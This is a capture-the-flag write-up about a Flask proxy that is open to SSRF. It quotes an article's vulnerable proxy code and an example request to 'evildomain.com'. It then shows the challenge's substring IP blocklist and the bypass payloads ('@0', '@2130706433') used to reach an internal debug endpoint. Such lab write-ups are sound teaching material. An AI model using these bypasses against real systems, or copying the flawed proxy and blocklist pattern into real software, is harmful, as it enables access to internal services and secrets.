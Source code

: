 ```yaml
---
title: "Proxy Pwn Challenge"
date: 2024-05-21
---
```



Resources 
- https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass
# Flask Proxy

A snippet taken straight from the article shows us this

> [!NOTE]
> *My first thought was: "What if the developer forgets to add the last slash in the `SITE_NAME` variable?". And yes, it can lead to an SSRF.*
> 
> *Since Flask also allows any ASCII character after the `@`, it's possible to fetch an arbitrary domain after concatenating the malicious pathname and the destination server.*
> 
> *Please consider the following source code as a reference for the exploitation scenario:*
> 
> ```
> from flask import Flask
> from requests import get
> 
> app = Flask('__main__')
> SITE_NAME = 'https://google.com'
> 
> @app.route('/', defaults={'path': ''})
> @app.route('/<path:path>')
> 
> def proxy(path):
>   return get(f'{SITE_NAME}{path}').content
> 
> if __name__ == "__main__":
>     app.run(threaded=False)
> ```
> 
> *Presented below is an example of an exploitation request:*
> 
> 
> ```
> GET @evildomain.com/ HTTP/1.1
> Host: target.com
> Connection: close
> ```
> 
> *In the following example, I was able to fetch my EC2 metadata:*
> 

# Let's give it a whirl shall we?

Looking at the code we clearly need to reach the `/enviroment` endpoint and it looks to be at the `/debug` route. 

```
GET /?url=@127.0.0.1:1337/debug/environment
```

result

```
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.0.0 Python/3.12.0
Date: Wed, 22 May 2024 04:17:03 GMT
Content-Type: application/json
Content-Length: 24
Connection: close

{"error":"Not Allowed"}
```

As we can see this did not work so searching through the provided files we can see this.

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']

def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True

def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip

```

## SSRF URL ByPass

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass

From this we can try replacing `127.0.0.1` with any of the payloads. Let's try `@0`

```
GET /?url=@0:1337/debug/environment 
```


![[Assets/Pasted image 20240521230536.png]]

## PS
Another cool one that worked was 
```
GET /?url=@2130706433:1337/debug/environment
```
